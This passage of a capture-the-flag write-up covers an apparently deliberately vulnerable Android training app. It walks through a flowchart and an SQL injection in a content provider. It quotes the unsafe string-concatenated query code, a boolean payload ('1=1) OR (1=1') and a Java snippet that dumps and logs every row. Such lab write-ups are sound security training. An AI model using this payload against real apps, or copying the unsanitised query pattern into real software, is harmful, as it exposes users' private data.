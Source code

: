     C --> C1[Extract ID from URI<br/>example: /flag/32 to 32]
    C1 --> C2[Build query:<br/>name=flag32 AND visible=1]
    C2 --> C3[Return single flag cursor]
    
    D --> D1[Build base query:<br/>visible=1]
    D1 --> D2{Additional filters?}
    D2 -->|Yes| D3[Append to query]
    D2 -->|No| D4[Execute query]
    D3 --> D4
    D4 --> D5[Check for flag32]
    
    D5 --> E{containsFlag32?}
    E -->|Yes| F[Trigger success and<br/>Requery cursor]
    E -->|No| G[Return original cursor]
    
    F --> M[Return refreshed cursor]
    
    style C fill:#d4f1f9,stroke:#333
    style D fill:#f9e4d4,stroke:#333
    style containsFlag32Check fill:#e8f9d4,stroke:#333
{{< /mermaid >}}

#### Solution
The key is in the second part cuz it constructs the filters for query and takes input directly and that makes it vulnerable to sql injection  (Boolean based slqi)

```java
String str3 = "visible=1" + (str != null ? " AND (" + str + ")" : "");
        Cursor query = readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, str3, strArr2, null, null, str2);
        if (containsFlag32(query)) {
            success(logHelper);
            query.requery();
        }
        return query;
```

so

```sql
visible=1 AND ( any thing) --original
visible=1 AND (1=1) OR (1=1) --what our payload looks like
```

```java
Uri uri = Uri.parse("content://io.hextree.flag32/flags");  
Cursor cursor = getContentResolver().query(uri, null, "1=1) OR (1=1", null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString());  
    } while (cursor.moveToNext());  
}
```
